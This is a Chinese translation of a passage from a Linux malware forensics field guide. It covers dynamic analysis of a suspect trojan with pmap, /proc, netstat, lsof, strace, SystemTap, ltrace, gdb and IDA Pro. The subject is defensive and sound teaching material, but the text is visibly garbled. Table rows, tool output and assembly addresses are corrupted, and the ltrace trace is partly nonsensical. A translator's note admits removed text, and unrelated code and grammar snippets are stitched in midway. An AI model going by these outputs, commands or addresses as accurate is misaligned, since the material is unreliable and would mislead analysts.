| b7557d000 | 0 | 468 | | r-x-- | libc-2.15.so |
| b76f7a000 | 0 | 0 | | rw-- | libc-2.15.so |
| b76f8b000 | 0 | 8 | | rw-- | libc-2.15.so |
| b76f7d000 | 0 | 4 | | rw-- | libc-2.15.so |
| b77f6e000 | 0 | 16 | | rw-- | [ anon ] |
| b77020000 | 0 | 68 | | r-x-- | libthread-2.15.so |
| b7719d000 | 0 | 4 | | rw-- | libthread-2.15.so |
| b7771a000 | 0 | 4 | | rw-- | libthread-2.15.so |
| b771b9000 | 0 | 4 | | rw-- | [ anon ] |
| b771d1000 | 0 | 8 | | r-x-- | libdl-2.15.so |
| b77200000 | 0 | 4 | | rw-- | libdbl1-2.15.so |
| b7721d000 | 0 | 4 | | rw-- | libdbl1-2.15.so |
| b77336000 | 0 | 8 | | rw-- | [ anon ] |
| b7738d000 | 0 | 4 | | rw-- | [ anon ] |
| b7739d000 | 0 | 84 | | r-x-- | ld-2.15.so |
| b77599000 | 0 | 4 | | rw-- | ld-2.15.so |
| b7775a000 | 0 | 4 | | rw-- | ld-2.15.so |
| bfd740000 | 0 | 40 | | rw-- | [ stack ]
```

图 6.31—使用 `pmap` 检查可疑进程的内存映射

# 探索 `/proc/<pid>` 目录

通过名称和 PID 并确认可疑进程后，检查与进程关联的 `/proc` 目录内容，以关联分析过程中获得的信息并确认没有异常项。

- 这些信息对于事件重建期间解析主机完整性系统也有帮助，可疑进程的 `/proc` 条目可以作为参考点。
- 回想第 1 章和第 2 章，`/proc` 目录被视为虚拟文件系统，其文件代表内核当前的状态，包括关于每个进程的信息，例如命令行参数和内存内容。
- `/proc` 目录是分级结构，具有大量的枚举子目录，对应于系统上的每个运行进程。
- 若要探索与可疑进程相关的 `/proc` 目录内容，可以使用 `ls /proc/<pid>` 命令列出相应 PID 的内容，如图 6.32 所示。

调查中的一些条目包括：

- `/proc/<pid>/cmdline` 是调用该进程的完整命令行参数。
- `/proc/<pid>/cwd` 或“工作目录”是运行进程的工作目录。
- `/proc/<pid>/environ` 子目录包含进程的环境。
- `/proc/<pid>/exe` 是与进程关联的可执行文件的符号链接。
- `/proc/<pid>/fd` 子目录包含进程打开的每个文件，以文件描述符命名，并指向实际文件的符号链接。
- `/proc/<pid>/maps` 文件包含当前映射的内存区域及其权限。
- `/proc/<pid>/status` 文件提供进程状态的信息。

# 进程与端口关联：检查网络连接和开放端口

除了与可疑进程相关的细节外，数字取调查人员应查看受感染系统上的任何已建立连接和监听端口。进程中获得的信息将作为调查恶意样本的良好指南。

# 第 6 章 恶意软件样本分析

```
malwarelab@MalwareLab:/proc/3783$ ls -al
total 0
dr-x--r-x 9 malwarelab 0 Jul 11 20:20 .
dr-x--r-x 196 root 0 Jul 11 20:10 ..
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 attr
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 autogroup
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 cgroup
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 clear_refs
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 cmdline
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 comm
-rw-r--w 1 malwarelab 0 Jul 11 20:31 core
-rw-r--w 1 malwarelab 0 Jul 11 20:31 filter
-rw-r--w 1 malwarelab 0 Jul 11 20:31 cpuset
lrwx-xrx 1 malwarelab 0 Jul 11 20:20 cwd -> /
lrwx-xrwx 1 malwarelab 0 Jul 11 20:20 environ
lrwx-xrwx 1 malwarelab 0 Jul 11 20:20 exe -> /home/malwarelab/WIFAPT
dr-x--r-x 1 malwarelab 0 Jul 11 20:20 fd
dr-x--r-x 2 malwarelab 0 Jul 11 20:31 finfo
dr-x--r-x 1 malwarelab 0 Jul 11 20:20 io
-rw-r--w 1 malwarelab 0 Jul 11 20:31 latency
-rw-r--w 1 malwarelab 0 Jul 11 20:31 limits
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 loginid
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 map_files
dr-x--r-x 1 malwarelab 0 Jul 11 20:29 maps
-rw-r--r 1 malwarelab 0 Jul 11 20:31 mem_mountinfo
-rw-r--r 1 malwarelab 0 Jul 11 20:31 mounts
-rw-r--r 1 malwarelab 0 Jul 11 20:31 mountstats
dr-x--r-x 5 malwarelab 0 Jul 11 20:31 net
dr-x-x-x 2 malwarelab 0 Jul 11 20:31 ns
-rw-r--w 1 malwarelab 0 Jul 11 20:31 oom_adj
-rw-r--w 1 malwarelab 0 Jul 11 20:31 oom_score
-rw-r--w 1 malwarelab 0 Jul 11 20:31 oom_score_adj
-rw-r--w 1 malwarelab 0 Jul 11 20:31 pagemap
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 personality
lrwx-xrwx 1 malwarelab 0 Jul 11 20:31 root -> /
-rw-r--w 1 malwarelab 0 Jul 11 20:31 sched
-rw-r--w 1 malwarelab 0 Jul 11 20:31 schedstat
dr-x--r-x 1 malwarelab 0 Jul 11 20:31 sessionid
-rw-r--w 1 malwarelab 0 Jul 11 20:29 smaps
-rw-r--w 1 malwarelab 0 Jul 11 20:31 stat
-rw-r--w 1 malwarelab 0 Jul 11 20:20 status
-rw-r--w 1 malwarelab 0 Jul 11 20:31 syscall
dr-x--r-x 4 malwarelab 0 Jul 11 20:20 task
-rw-r--w 1 malwarelab 0 Jul 11 20:20 wchan
```

# LINUX 系统恶意软件取证领域指南

- 本地 Internet 协议 `IP` 地址和端口
- 远程 IP 地址和端口
- 远程主机名
- 协议
- 连接状态
- 进程名称和 PID
- 与进程关联的可执行程序
- 可执行程序路径

在建立连接 `ESTABLISHED`、`LISTEN`、`CLOSED_WAIT` 等时，识别受害者系统上的协议、端口以及关联的远程端口。一旦确定了这些项目，就识别导致受害者系统网络端口打开的进程 PID，并检查用于启动网络活动的命令。

要使用 `netstat` 收集此类信息，请使用以下命令：

`netstat -an`（见图 6.3）。

也可以使用 `lsof` 命令并配合 `-i` 选项来检查受感染系统上的 Socket 连接（不使用地址或端口分隔符将显示所有 Internet 和网络相关文件）。

```
malwarelab@Malwarelab$: netstat -an
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| tcpct | 0 | 1 | 127.0.0.1:643 | 0.0.0.0* | LISTEN | 4672/h3pd |
| tctp | 0 | 1 | 127.0.0.1:659 | 0.0.0.0* | LISTEN | 5034/sshd |
| tctp | 0 | 1 | 127.0.0.1:12207 | 0.0.0.0* | LISTEN | 4661/python |
| tctp | 0 | 1 | 127.0.0.1:1289 | 0.0.0.0* | LISTEN | 4624/daemon |
| udp | 0 | 0 | 0.0.0.0:68 | 0.0.0.0* | ESTABLISHED | 4630/bdbd |
| udp | 0 | 0 | 192.168.1.103:13298 | 192.168.1.101:153 | ESTABLISHED | 4644/bash |
| udp | 0 | 0 | 0.0.0.0:53 | 0.0.0.0* | ESTABLISHED | 4624/arachi-daemon |
```

> 图 6.3—使用 `netstat -an` 进行端口到进程的映射

- 为了获得粒度，可以使用 `lsof` 的 `-iUDP`（列出与 UDP 端口关联的进程）和 `-iTCP`（列出与 TCP 端口关联的进程）选项来隔离 Socket 连接活动（见图 6.4）。

```
malwarelab@Malwarelab$: lsof -iUDP
COMMAND PID USER FD TYPE DEVICE SIZE NAME
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| gtty | 7821 | malwarelab | 4u | IPv4 | 42202 | UDP | Malwarelab.local:32951->192.168.110.1:domain |
| gtty | 7821 | malwarelab | 4u | IPv4 | 42202 | UDP | Malwarelab.local:32968->192.168.110.1:domain |
```

```
malwarelab@Malwarelab$: lsof -iTCP
COMMAND PID USER FD TYPE DEVICE SIZE/OFFSET NAME
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| tpp | 7834 | malwarelab | 28r | IPv4 | 16318 | 0t TCP | Malwarelab.local:42523->192.168.110.15:http (ESTABLISHED) |
```

> 图 6.4—使用 `lsof` 查看打开的文件和套

# 第 6 章：恶意软件样本分析

## 调查考量

- 在 `netstat` 中使用 `-c` 选项进入“连续模式”

正如本章前面提到的，上述参考命令行工具的替代方案是 `NetActView`。

- 在 `NetActView` 界面中，识别可疑连接——点击目标条目后，它将直观地高亮以便区分。
- 新打开的连接显示为绿色；最近关闭的连接显示为红色。
- 本地和远程端口、协议、PID 以及关联的程序命令可以易于识别；这些数据可以通过右键点击目标连接并从工具菜单中选择“复制 `copy`”获取（图 6.35）。

# 监控系统调用

- 回想系统调用是程序在用户空间向内核发出的通信。可疑进程发出的系统调用可以提供有关执行程序性质和目的的洞察，例如文件、网络和内存访问。此外，深入理解系统调用将极大有助于在反汇编器中对恶意软件样本进行静态检查。
- 通过监控系统调用，数字取证人员可以“监视”执行的程序与操作系统的交互。在检查可疑程序发出的调用时，注意与以下内容的查询：
  - 创建或终止
  - 文件、网络和内存访问
  -

## 使用 `strace` 捕获系统调用

- 记住 `strace` 是一个 Linux 原生工具，用于拦截并记录程序运行的系统调用。
- 在捕获系统调用的过程中，`strace` 配合其他工具可以分析恶意软件的行为。在这种情况下，`strace` 能够跟踪程序的执行轨迹。
- 为了获取有关恶意代码的全面信息，使用 `strace` 执行程序，捕获发生的所有读写操作，拦截从原始进程生成的任何子进程的相同信息，并根据进程标识将结果写入独立的文本文件中，如 6.37 所示。
- 在后一种场景中，使用虚拟化实验室环境特别有益，因为 `strace` 在每次实例中都会将受害者主机恢复到原始状态。

## 第 6 章 恶意软件样本分析

其他工具。这使得数字取证人员能够通过其他活跃的系统监控捕获实时验证*跟踪 `trace`*输出（图 6.40）。

| 选项 | 目的 |
| :--- | :--- |
| `-o` | 将跟踪输出写入文件名 |
| `-e tracefile` | 跟踪所有以文件名作为参数的系统调用 |
| `-e traceprocess` | 跟踪所有涉及进程管理的系统调用 |
| `-e tracenetwork` | 跟踪所有与网络相关的系统调用 |
| `-e tracedesc` | 跟踪与文件描述符相关的系统调用 |
| `-e readset` | 对指定集合中从文件描述符读取的所有数据执行完整执行和 ASCII 储转储 |
| `-e write` | 对指定集合中写入文件描述符的所有数据执行完整执行和 ASCII 储转储 |


| `-f` | 跟踪由当前跟踪的进程通过 `fork()` 系统调用创建的子进程 |

| `-ff` | 可用选项：将每个子进程写入*文件名*，其中 pid 是每个进程的数字进程 ID |

| `-x` | 以十六进制格式打印所有非 ASCII 字符串 |

| `-xx` | 以十六进制格式打印所有字符串 |

图 6.40 有用的选项

- 对于完整执行，数字取证人员应该结合系统活动以及相关的伪产物（artifacts）检查系统调用，例如被可疑程序请求或调用的可疑文件。
- 在本章后续章节，将在重构恶意软件样本行为事件的背景下再次介绍 `strace` 的使用。

> 分析提示
> 解密系统调用
> 在解释 `strace` 输出时，查阅你不熟悉的各种系统调用的对应 *man*（手册）页是有帮助的。除了可能没有所有系统调用条目的 *man* 页外，拥有一个 Linux 函数参考手册（此处原文为 Linux function reference）也会非常方便。可以考虑的一些在线参考资源包括 Die.net 上的 Linux *man* 页搜索引擎（http://linux.die.net/man/）以及 The Open Group 网站上的系统字母索引（http://www.opengroup.org/onlinepubs/009695399/idx/index.html）。

## 使用 SystemTap 和 Mortadelo 捕获系统调用

- SystemTap 和 Mortadelo 为可疑系统提供了宽谱系统调用监控的方法。

⁸ 有关 SystemTap 的更多信息，请访问 http://sourceware.org/systemtap/

## Linux 系统恶意软件取证现场指南

### SystemTap

- SystemTap 是一个提供实例化框架的工具，用于跟踪、监控和探测 Linux 内核。SystemTap 框架的灵活性允许数字取证人员手动输入命令，或者使用现有的或自定义开发的脚本来调查系统调用和内核事件。
- 要利用 SystemTap，分析系统上必须安装与你的内核版本对应的 `-devel`、`-debuginfo` 和 `-debuginfo-com` 包。
- SystemTap 脚本（`.stp` 扩展）通过 `stap` 命令从标准输入或文件调用；脚本指示 SystemTap 指定收集哪些数据以及如何处理这些数据。例如，有的脚本可以探测网络活动（`nettop.stp`）、socket 连接（`socket-trace.stp`, `tcp_connections.stp`）、文件活动（`inodewatch.stp`）以及系统调用（`syscalls_by_proc.stp`）等数据。
- 数字取证人员在恶意软件取证范围内可能常用的脚本如图 6.41 所示。

| 脚本 | 目的 |
| :--- | :--- |
| `fortracker.stp` | 跟踪进程的创建 |
| `functioncall.count` | 函数调用的名称以及在捕获期间每个函数调用的次数 |
| `inodewatch.stp` | 对文件的读取和写入进行实时监控 |
| `inodewatch2.stp` | 监控哪些文件属性被进程修改了 |
| `lostats.stp` | 列出读写数据最多的可执行文件 |
| `iotime.stp` | 跟踪文件的侵入读取和写入 |
| `nettop.stp` | 揭示与进程相关的网络流量 |
| `psig.stp pstrace_exec.stp` | 跟踪匹配 `exec` 命令的进程祖先的打印信息 |
| `profile.stp` | 监控所有系统调用 |
| `socket-trace.stp` | 揭示每个进程如何在内核层面与网络交互 |
| `syscalls_by_pid.stp syscalls_by_proc.stp` | 按 PID 统计全系统系统调用计数；按进程名降序打印系统调用 |
| `tcp_connections.stp tcpdumplike.stp` | 监控入的 TCP 连接；topsys.stp 实时监控系统接收的 TCP 数据包；识别系统上最常用的系统调用 |

> 图 6.41—有用的 SystemTap 脚本

81 SystemTap Beginners Guide, Edition 2.2（可从 http://sourceware.org/systemtap/Tap_Beginners_Guide/ 和 http://sourceware.org/systemtap/SystemTap_Beginners_Guide.pdf 获取）。
82 SystemTap Beginners Guide, Edition 2.2, 第 7 页。
83 SystemTap Beginners Guide, Edition 2.2, 第 11 页。获取提供 SystemTap 脚本的资源，请访问 http://sourceware.org/systemtap/wiki/ScriptsTools 和 http://sourceware.org/systemtap/examples/。

## 第 6 章 恶意软件样本分析

### 调查考虑

- 使用可以对目标区域提供更广泛可视性的 SystemTap 命令和脚本，并使用额外的脚本将粒度细化到所需结果。例如，在检查可疑进程的系统调用时，首先识别调用，然后使用其他脚本细化结果。

```
（注：由于原文中存在大量重复的乱码/占位符文本，此处已根据“不要重复输出原文”的原则进行了过滤，仅保留了有意义的结构部分。）
```

## 6 恶意软件样本分析

463


图 6.46-Ltrace 显示一个恶意进程请求无法追踪的证据资源

- 错误信息（例如进程查询不存在的图块）用红色字体显示，以便观察（图 6.46）。

### 使用 ltrace 捕获动态库调用

- 为了拦截可疑进程在运行时调用的系统调用，可以使用该工具。
- 识别程序调用并执行的库，这可以为程序的性质、目的以及功能提供线索。为了实现这一点，可以使用 `ltrace`⁸，这是一种用于 Linux 系统的实用程序，它可以拦截并记录目标进程所发出的动态库调用。
- 要使用 ltrace，请通过 ltrace 启动目标进程。例如，如果你想检查 Firefox，命令为 `malwarelab@MalwareLab~/user/bin/firefox`。
- 还有许多额外的 ltrace 选项可以捕获更广泛的进程活动，例如用于拦截系统和库调用的 `-S` 关，如图 6.47 所示。

⁸ 有关 ltrace 的更多信息，请访问：http://www.ltrace.org。

## Linux 系统恶意软件取证现场指南

```
malwarelab@Malware Repository: ltrace -s /av >>
/home/malwarelab/ltrace.txt
sys_brk(NULL)
sys_access("/etc/ld.so.nowcap", 0) = 0x0811a000
sys_mmap(0, 0, 34, -1) = 0xb77aaaa0
sys_open("/etc/ld.so.preload", 0) = -3
sys_stat("/etc/ld.so.nowcap", 524288, 0xb779e8c9, 3) = 0
sys_fstat(4, 0xb77f5e80, 0xb77f9df4) = 0xb7766000
sys_close(3)
sys_access("/etc/ld.so.nowcap", 0) = -2
sys_open("/lib/i386-linux-gnu/libld.so", 524288, 02404033) = 3
sys_read(3, "0x17FEFF001001", 512) = 512
sys_fstat(4, 0xb77f5e80, 0xb77f0a4e5, 0xb79eb00) = 0xb7761000
sys_mmap(2, 0xb77f6400) = 0xb7764000
sys_close(3)
sys_access("/etc/ld.so.nowcap", 0) = -2
sys_open("/lib/i386-linux-gnu/libld.so", 524288, 02404033) = 3
sys_read(3, "0x17FEFF001001", 512) = 512
sys_fstat(4, 0xb77f5e80, 0xb77f40a69, 0xb79eb00) = 0xb7745000
sys_mmap(2, 0xa9cacd, 2050) = 0xb75b0000
sys_fstat(0xb77f5000, 8192, 3, 2066) = 0xb775f000
sys_close(3)
sys_access("/etc/ld.so.nowcap", 0) = -2
sys_open("/lib/i386-linux-gnu/libld.so", 524288, 02404033) = 3
sys_read(3, "0x17FEFF001001", 512) = 512
sys_fstat(4, 0xb77f5e80, 0xb77f40a68, 0xb79eb00) = 0xb7745000
sys_mmap(2, 0xa9cacd, 2050) = 0xb75b0000
sys_fstat(0xb775a728, 0xb77f5a728, 1, 0xffc7fc44) = 4335
sys_mprotect(0xb777area, 8192, 1) = 0
sys_mprotect(0xb7766000, 4096, 1) = 0
sys_mprotect(0xb7750000, 4096, 1) = 0
sys_mprotect(0xb776a000, 4096, 1) = 0
sys_munmap(0xb775a728, 4096) = 0
sys_set_tid(0xb77fc63, 12, 0xff7fd4, 0xff9e20) = -1
sys_futex(0xb77fb44, 3, 1) = 0
sys_rt_sigaction(3, 0xb77fc74, 0, 0xff7fd4)
sys_rt_sigaction(3, 0xb77fc74, 0, 0xff7fd4)
sys_rt_sigmask(1, 0xb77f14, 0, 0xff7fd4) = 0
sys_getlimit(3, 0xb77fb9c, 0xffffa04, 1)
sys_close(0xb77f9b0) = 0
sys_brk(NULL) = 0x0811000
sys_brk(0x0811b00) = 0x0811b00
sys_malloc() = 0x0811a058
sys_free(0x0811a058)
sys_snprintf(0xb77fb14, 16, 0x056b4a) = 14
sys_open("/tmp/0xe2wId", 6666) = 3
sys_write(3, "/tmp/0xe2wId", 32836) = 3
sys_fcntl(3, 0xb77fafc, 13) = 0
sys_fstat(3, 0xb77fafc, 0xb77ff8c, 0xb7ffd4) = 0
```

图 6.47-跟踪带有一个文件的进程库和系统调用

## 6 恶意软件搜索者的分析

465

`getpid()` = 4335

`snprintf(0xb776a14, 4352, 1, 4352, 0x8506d9)` = 14

`rename(0xb77d3bc, 4352, 4335, 0x6f720f)` = -1

`sys_read(0x4cc33, "*", 4335, 0x6f720f)` = 47

= 47

= 0x0811a058

`malware()` = 0x0811a070

`gethome("/home/malware")` = 0

`malware()` = 0

`free(0x0811a070)`

`fopen("/home/malware/Malware Repository: ltrace...", "rb")` = 32768, 066

`fopen("/home/malware/WIFIADAPT")` = 33345, 666

= 0x0811a090

`fopen("/home/malware/WIFIADAPT")` = 5

= 0x0811a0f8

`read(0x0811a8c0, 1, 32768)` = -1

`fstat(64, 0xb77f994, 0xb7740ff4, 0x0811a8f8, 892)` = 0

`mmap(0, 0, 32768, PROT_READ|PROT_WRITE, 0x7ff10001:0001, 32768)` = 0xb7779900

= 32768

`mmap(0x7ff10001, 1, 32768)` = -1

`fstat(64, 0xb77f994, 0xb7740ff4, 0x0811a8f8, 892)` = 0

= 0xb7779900

= 32768

`write(0x7ff10001, 0x001, 32768)` = 32768

= 32768

`read(0x0811a8c0, 1, 32768)` = -1

## 其他考虑的工具

### 系统调用跟踪

虽然分析人员经常使用 `strace` 来跟踪异常进程的调用——特别是因为它有效且是 Linux 系统的原生工具——但许多其他实用程序也可以：

- **Xtrace**: “扩展跟踪”工具与 `strace` ，但具有扩展的功能和特性，包括导出函数调用（动态或静态）的能力[http://sourceforge.net/xtrace/]。
- **Etrace**: ELF 跟踪器是一个可脚本的跟踪器，可以在不生成跟踪的情况下以全频率运行[http://www.eresi-project.org/]。
- **Sstrate**: 由 Niel Provos（honeyyd 的开发者）编写，sstrate 是一种交互策略生成工具，通过限制应用程序对主机系统的访问来强制系统调用。这对于隔离系统二进制文件特别有用[http://www.citi.umich.edu/uprovos/strate/]。
- **Systrack**: 允许用户跟踪整个 Linux 系统的系统调用。允许用户指定规则来确定哪些系统调用将被跟踪，以及当规则匹配系统时该做什么[http://sourceforge.net/systrack]。
- **ProcessTap**: 用于分析闭源应用程序的动态跟踪框架[http://code.google/com/processtap/]。

### 使用 gdb 检查运行进程

除了使用 `strace` 和 `ltrace` 之外，还可以使用 GNU 项目调试器 (`gdb`) 获取有关恶意代码样本的额外信息。

- 使用 `gdb`，数字调查人员可以探索执行期间恶意程序的内容。
- 因为 `strace` 和 `gdb` 都依赖 `ptrace()` 函数来附加到运行的进程，因此在进程从 `strace` 中“释放”之前，数字调查人员无法在被 `strace` 监控的同一个进程上以此方式使用 `gdb`。
- 使用 `gdb` 内的 `attach` 命令调试不受控的可疑进程。执行此命令后，gdb 将从进程中读取所有符号信息并将其打印到屏幕上，如图 6.49 所示。

## 第 6 章 恶意软件样本分析

467

```bash
(gdb) attach 7434
```

```
Attaching to process 7434
Reading symbols from /home/malwarelab/darksiphon... 
Using host libthreaddb_library from /lib/tls/i686/i686/libthread_db.so.1.
Reading symbols from /lib/tls/i686/i686/libc.so.6...
Loaded symbols for /lib/tls/i686/libc.so.6
Reading symbols from /lib/tls/id-linux.so.2.2...
Loaded symbols for /lib/tls/id-linux.so.2.2
Reading symbols from /lib/tls/i686/i686/libnns_files.so.2...
Loaded symbols for /lib/tls/i686/i686/libnns_files.so.2
Reading symbols from /lib/tls/i686/i686/libmdns4_minimal.so.2...
Loaded symbols for /lib/tls/i686/i686/libmdns4_minimal.so.2
Reading symbols from /lib/tls/i686/i686/libnns_dns.so.2...
Loaded symbols for /lib/tls/i686/i686/libnns_dns.so.2
Reading symbols from /lib/tls/i686/i686/libresolv.so.2...
Loaded symbols for /lib/tls/i686/i686/libresolv.so.2
Reading symbols from /lib/tls/i686/libmdns4.so.2...
Loaded symbols for /lib/tls/i686/libmdns4.so.2
0xffffe410 in kernel_vscall ()
```

> 图 6.49-使用 gdb 附加到运行中的进程

- 在此语境下检查 gdb 的输出时，寻找你可能在分析过程中使用 `ldd` 和其他工具发现的库。
- 此外，检查 GNU C 库 (glibc) 中与网络功能相关的符号引用结果，如 `libc.so.2`、`libnns_dns.so.2` 和 `libmdns4.so.2`。这些引用与域名解析、网络连接和其他重要功能有关。


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

# Linux 系统恶意软件取证指南

- 如果识别出这些符号引用，请密切关注系统中捕获的网络流量，因为可疑程序可能会表现出网络行为，例如尝试解析域名，可能是为了尝试向攻击者“回拨”以等待进一步指令。诸如这种难以捉摸的网络轨迹以及潜在的网络踪迹和印象就是线索。

- 使用`gdb`附加到可疑进程后，使用`info functions`命令提取信息，该命令会显示二进制文件中的函数及其相应的地址。这包括嵌入二进制文件中的符号信息，可用于验证从文件分析过程中通过`nm`和其他工具提取的发现（图 6.50；第 5 章）。

```bash
(gdb) info functions
所有定义的函数:

非调试符号:

```

0x080427b `cpCopyFileEx`

0x080435a `cpGetFileSize`

0x0804385 `cpMkDir`

0x080439a `cpFindFile`

0x080449b `cpGetLocalFileName`

0x0804505 `cpGetLocalFilePath`

0x0804548 `cpAlxep`

0x0804559 `cpBeginThread`

0x080457c `ReleaseHeap`

0x08045a1 `cpReadFileData`

0x0804693 `cpLoadLibrary`

0x08046a5 `cpGetProcAddress`

0x080466a `cpFreeLibrary`

0x08046db `SendDownloadStatus`

0x0804727 `cpdownloadFile`

0x08049e0 `FindSpace`

0x0804a08 `cpListProcesses`

0x0804a6b `cpKillProcess`

0x0804fdc2 `cpCurrentProcessID`

0x0804fdc8 `BindShell`

0x080503c `WriteCommand`

0x080501d4 `SaveImageToBitmap`

0x080505c `CaptureScreen`

0x080506d `CaptureScreenToJPEG`

```

图 6.50—使用`gdb`提取函数

- `gdb`还可以用于从`/proc/<pid>`条目收集与可疑执行进程相关的信息。特别是使用`info proc`命令（图 6.51），数字调查人员将获得有关进程的价值信息，包括相关的 PID、调用进程的命令行参数、当前工作目录 `cwd` 以及可执行文件的位置 `exe`。`/proc`文件系统将在本章的后续部分讨论（关于`/proc`的更多讨论可以在第 1 章和第 2 章找到）。

```bash

(gdb) info proc

process 4337

line = '/home/malwarelab/Malware Repository/Wirenet/avx'

cwd = '/'

exe = '/home/malwarelab/Malware Repository/Wirenet/avx'

```

图 6.51—使用`gdb`提取`/proc`信息

## 恶意软件样本分析

### 使用系统调用

- `strace`: 跟踪系统调用
- `ltrace`: 跟踪库
- `ptrace`: 跟踪进程
- `dtrace`: 动态跟踪工具
- `ktrace`: 内核跟踪
- `truss`: 跟踪系统调用
- `syscalls`: 系统调用

### 检查文件系统活动

- `lsof`: 列出打开的文件
- `netstat`: 列出网络连接
- `find`: 搜索文件
- `du`: 磁盘占用分析
- `cat`: 合并文件内容
- `ls`: 列出目录内容

## 第6 章 | 恶意软件样本分析

### 在线资源（续）

- 同样，请记住，通过向第三方网站提交文件，你就不再对该文件或与文件相关的数据具有控制权。精明的的攻击者会进行广泛的开源研究和搜索引擎查询，以确定他们的恶意软件是否已被检测。提交到在线恶意软件分析服务的文件的相关结果是公开的，且易于发现——许多门户网站都具有搜索功能。因此，作为提交文件的结果，攻击者可能会发现他的恶意软件和恶意行为已被发现，导致证据被销毁，并可能损害你的调查。
- 本章末尾的“工具箱附录”中提供了一个可用在线恶意软件分析沙箱及其各自特征的对比列表。

## 重新审视嵌入物的提取

在成功执行恶意代码（如果存在混淆代码则处理它）后，重新检查样本的嵌入产物，并对样本进行更深层次的静态分析。

- 使用第 5 章中描述的工具、技术和协议对可执行文件进行重新分析。
- 特别注意字符串、符号信息和文件元数据，这些信息可能揭示与程序目的和能力相关的线索。
- 反汇编目标可执行文件，以确定嵌入产物的函数和相互关系，并反之，确定这些关系的总和是如何塑造样本功能性的，包括：
  - 触发事件
  - 系统调用的关系上下文
  - 目标系统上预期的数字印象和痕迹证据

> 分析提示
> 调查类比
> 数字化调查人员在某种程度上可以将动态分析看作是对嫌疑人的监视。在监视视过程中，调查人员试图获知：“嫌疑人在做什么，他去哪里，他在和谁说话”等。这种初步的证据收集有助于提供嫌疑人活动的基本概览，但通常需要额外的调查。对嫌疑人（代码）进行详细的审问（与恶意软件取证、反汇编并行）有助于识别剩余的感兴趣项目。

## 在反汇编器中检查嫌疑程序

在恶意代码样本的动态分析过程中，活跃的系统监控可能会对恶意代码的功能产生某些线索。特别是样本在执行轨迹期间执行的系统调用，对于样本的运行方式以及在受影响系统上留下的数字印象和痕迹证据提供了大量的见解。

- 在`IDA Pro`中检查样本，`IDA Pro`是`Hex-rays.com`提供的一个强大的反汇编器和调试器。反汇编器允许数字化调查人员探索目标二进制文件的汇编语言，或主机系统处理器将执行的指令。虽然本节的重点是使用`IDA Pro`，但其他反汇编器（和调试器），如`objdump`、`Dissy`、`Idasm`和`lida`，已在本章的工具箱附录以及配套网站上进行了讨论。
- `IDA Pro`功能丰富，支持多处理器，并且长期以来一直被认为是恶意代码分析和研究的事实反汇编器。虽然详细介绍`IDA Pro`提供的所有功能超出了本书的范围，但 Chris Eagle 写的《The IDA Pro Book》是一个非常好的参考资料。

通过在动态分析期间监控程序执行的系统调用，可以在`IDA Pro`中识别出一个有用的函数列表进行探索。以下示例演示了如何利用系统调用监控期间收集的信息，并使用`IDA Pro`解析恶意样本。特别是，`IDA Pro`可用于识别：（1）触发事件；（2）系统调用的关系上下文；以及（3）预期的网络轨迹、数字印象和痕迹证据。

87 更多关于`IDA Pro`的信息，请访问 `http://www.hex-rays.com/idapro/`。尽管该工具售价约为 $600，但有一个供非商业用途的免费版本（功能、特性和支持略少）可以下载 (`http://www.hex-rays.com/idapro/idownfreeware.html`)。
88 更多关于`objdump`的信息，请访问 `http://www.gnu.org/software/binutils/`
89 更多关于`Dissy`的信息，请访问 `http://code.google.com/p/dissy`。
90 更多关于`Idasm`的信息，请访问 `http://freecode.com/projects/ldasm`。
91 更多关于`lida`的信息，请访问 `http://lida.sourceforge.net/`
92 `http://www.amazon.com/IDA-Pro-Book-Unofficial-Disassembler/dp/1593271786`。

## 触发事件

- 触发事件导致导致样本执行某些功能的环境或功能上下文变量。在图 6.52 中，使用`IDA Pro`定位了`Wirenet`木马调用`XInputExtension`的触发序列，正在寻找连接的输入设备，如键盘、鼠标等。可用设备通过调用`XListInputdevices`进行识别；要启动键记录序列的特定设备是：“AT”和“System Keyboard”（图 6.52）。


图 6.52—使用`IDA Pro`发现触发事件

## 系统调用的关系上下文

- 除了识别触发事件外，`IDA Pro`还用于识别某些系统调用的不可分割性，进一步揭示恶意样本如何完成其感染周期和预定目的。进一步研究图 6.52 中目标样本的代码，恶意软件还对受害者系统进行屏幕截图，试图秘密收集敏感信息——例如用户名和密码——通过一系列相关函数获取屏幕、捕捉图像并保存。如图 6.53 所示，`CaptureScreen`命令启动了`X11`。

```assembly

.text:08050C5 : CaptureScreen(int, unsigned *)

.text:08050C5 CaptureScreen

.text:08050C5 near      ; CODE XREF: CaptureJpeg+d

.text:08050C5 var_28 = dwordptr -28h

.text:08050C5 var_24 = dwordptr -24h

.text:08050C5 var_20 = dwordptr -20h

.text:08050C5 arg_4 = dwordptr -18h

.text:08050C5 arg_8 = dwordptr -0Ch

.text:08050C5 push ebp

.text:08050C6 push ebx

.text:08050C6 push esi

.text:08050C7 push edi

.text:08050C7 push eax

.text:08050C8 sub esp, ebp

.text:08050CCA lea eax, [esp+48h+var_20]

.text:08050CB mov esi, [esp+38h+arg_4]

.text:08050CC mov edi, [esp+38h+arg_8]

.text:08050C4 call X11

.text:08050C6 mov eax, edi

.text:08050C7 js short loc_80563

.text:08050C8 mov eax, [esp+28h]

.text:08050C9 sub esp, ebp

.text:08050CCA mov eax, [esp+48h]

.text:08050CB add esp, 8Ch

.text:08050C7 mov eax, [esp+4]

```

图 6.53—显示系统调用的关系上下文

- 使用`IDA Pro`查看函数之间的关系。

```assembly

.text:080506A0 push eax; int *

.text:080506A1 push ebx; int *

.text:080506A2 push edx; Window *

